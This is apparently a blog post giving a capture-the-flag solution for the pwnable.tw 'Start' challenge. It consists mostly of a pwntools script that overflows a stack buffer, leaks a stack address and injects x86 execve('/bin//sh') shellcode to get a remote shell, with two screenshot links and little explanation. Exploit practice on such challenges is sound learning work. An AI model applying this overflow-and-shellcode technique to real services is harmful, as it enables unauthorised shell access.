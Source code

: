 ```yaml
---
layout: post
title: 'Pwnable.tw: Start'
published: true
---
```

First, we check file info: 

![Capture.PNG]({{site.baseurl}}/img/ctf/pwnable.tw/Capture.PNG)


It's a .elf file. Now we should open disassembler like IDA Pro.
![assembly.PNG]({{site.baseurl}}/img/ctf/pwnable.tw/assembly.PNG)

{% highlight python linenos %}
from pwn import *

  conn = remote("chall.pwnable.tw", 10000)
  conn.recv(20)

  shellcode = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"

  payload = 'A'* 20 + p32(0x08048087)
  conn.send(payload)
  esp_add = conn.recv(20)

  print esp_add

  esp_add = u32(esp_add[0:4])
  print esp_add
  payload = 'A' * 20 + p32(esp_add + 20) + shellcode
  conn.send(payload)


  conn.interactive()
  conn.close()
{% endhighlight %}